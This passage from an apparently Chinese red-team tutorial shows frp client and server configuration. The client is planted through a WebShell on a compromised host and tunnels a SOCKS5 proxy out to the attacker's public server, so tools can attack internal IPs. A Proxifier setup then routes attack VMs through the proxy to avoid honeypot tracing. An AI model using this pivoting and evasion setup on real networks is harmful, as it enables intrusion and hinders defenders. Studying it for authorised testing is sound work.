 配置`frpc.ini`:

```
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过WebShell上传，frps上传到自己的公网服务器上，配置`frps.ini`:

```
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开6000和7000这两个端口，并执行命令进行监听：

```
./frps -c ./frps.ini
```

再在上线的那台机器上执行命令：

```
/var/www/html/frp/frpc -c ./frpc.ini
```

这样就可以成功将内网流量通过公网服务器的6000端口代理出来了，接下来使用 `Proxifier` 配合Frp对相关进程进行全局代理即可：

然后直接用工具对内网目标攻击即可（没错，就是你想的那样，工具里面直接填内网IP地址就能打）

#### 3.2 通过Proxifier将VM虚拟机代理

很多时候，作为攻击队，我们都需要在纯净的武器库虚拟机中完成自己的渗透（因为蜜罐会尝试获取浏览器Cookie和本地文件，用自己的实体机很快就能被溯源），如何直接让所有的虚拟机都走上代理呢？

**注：本文这个方法，无视任何类型的系统类型和对应配置，只要配置VM网卡出网即可被代理**

如下配置：

应用程序填写如下：

```
vmware.exe; vmnetcfg.exe; vmnat.exe; vmrun.exe; vmware-vmx.exe; mkssandbox.exe; vmware-hostd.exe; vmnat.exe; vmnetdhcp.exe
```

配置完成后，我们来虚拟机里面看看：

让我们来查看一下虚拟机公网IP地址：

让我们继续来看看Linux的表现：

再让我们来查看一下虚拟机公网IP地址：

这样整个虚拟机的代理都走上代理，无需在虚拟机中有任何其他配置，就问你骚不骚？
